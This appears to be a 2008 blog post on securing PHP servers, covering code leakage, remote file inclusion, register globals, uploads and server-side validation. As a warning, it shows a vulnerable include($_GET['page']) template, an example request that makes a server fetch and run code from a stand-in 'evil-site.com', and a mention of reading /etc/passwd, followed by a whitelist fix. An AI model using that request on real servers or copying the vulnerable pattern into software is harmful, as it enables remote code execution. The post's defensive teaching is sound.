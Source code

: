 title: Securing Your PHP Code - Server Security
date: 2008-04-06 02:04
excerpt: 
categories: mysql, php, programming

When protecting your server environment you'll want to ensure that two things happen. Firstly, you'll want to keep your scripts from prying eyes; you want to make sure that you don't accept input that will break your code. Secondly, and most importantly, you want to stop anyone from executing their own code on your servers.

<!--more-->

## Keeping Code Private

There are many reasons why you would want to keep your code from being leaked. It may contain passwords or API keys, it could give attackers an idea of where your code is vulnerable or you might just not want some idiot to nick your code and benefit from your hard work.

Of course everyone knows that [security by obscurity is bad](http://en.wikipedia.org/wiki/Security_through_obscurity), but if you have holes in your code then it's obviously better if other people didn't know about them.

The number one rookie mistake is failing to give your PHP scripts a .php extension. This may seem obvious, but lots of people seem to like naming their files something like "functions.inc" or "MyClass.class", seemingly unaware that anyone can request those files and view the raw code.

As well as giving files a correct extension you also consider moving them out of your web root anyway. You don't need them in there, and having them in a non-public path makes everything safer. If you don't want to rearrange your site structure then you could just use .htaccess to deny all requests to your include folder. In your-site.com/includes/.htaccess
<pre lang="php">Deny from all</pre>
Facebook recently had a [configuration](http://killersoft.com/randomstrings/2007/08/12/php-did-not-cause-facebook-code-leakage/) [issue](http://www.techcrunch.com/2007/08/11/facebook-source-code-leaked/) that caused their PHP files to be sent out as plain text. It only takes one small mistake to show the entire world the code base stored in your web root.

## Remote Code Execution

The last thing you ever want is to have an attacker run their own code on your servers. Unfortunately there are a few simple mistakes that could open your site up to this possibility.

Watch what you include or require. Many people use include as a shortcut in their templates. For example
<pre lang="php"><html>
<body>
	<div class="header">...</div>
	<?php include($_GET['page'] . '.php'); ?>
</body> 	
</html></pre>
This is a major no-no. The first problem is that an attacker can use this vulnerability to have any file on your system output to them. `/etc/passwd`. PHP will also allow you to include files from a remote server. An attacker can use this "feature" against you a request to `http://www.your-site.com/index.php?page=``http://www.evil-site.com/malicious-script.php.txt` would force your server to download and execute code from the "evil-site.com" domain. Once that happens the user can attack your system by executing [shell functions](http://kestas.kuliukas.com/Webkit/).

If you want to use the above pattern of templating then you can easily implement a white list of safe files.
<pre lang="php"><?php
$page = $_GET['page'];
$pages = array('index', 'about', '404', 'help');
if (!in_array($page, $pages)) {
	$page = '404';
}
include("$page.php");
?></pre>

## Register Globals

In the early days of PHP, external variables ($_GET, $_POST) were expanded as variables directly into the global scope: a query string of "?a=foo" would create a variable called `$a` in your local scope. This is thanks to the register globals functionality. Although this could seem useful, it is [potentially dangerous](http://www.php.net/register_globals). You should always turn off register globals in php.ini. If you can't edit your php.ini then add the following to your .htaccess file
<pre lang="php">php_value register_globals 0</pre>

## User Uploaded Files

Apache is set to pass any file with a "php" extension through to PHP. This means you have to be careful when storing user-uploaded files in your public directories. You may choose to allow users to upload their own avatar. It you keep the name given to the file by the user then you could be in for some trouble.

## Form Validation

One final word of warning: don't be tempted to leave any data validation to the client side. You might have written a nifty JavaScript function that does everything for you, but don't just leave it at that. You should always write your PHP validating first (and also use your database rules where possible). JavaScript validation is something you should attempt when everything else works perfectly, and should be approached as a way of speeding things up for the end user.

## Other articles in this series

*   [Securing Your PHP Code - XSS](../securing-your-php-code-xss/)
*   [Securing Your PHP Code - Databases](../securing-your-php-code-databases/)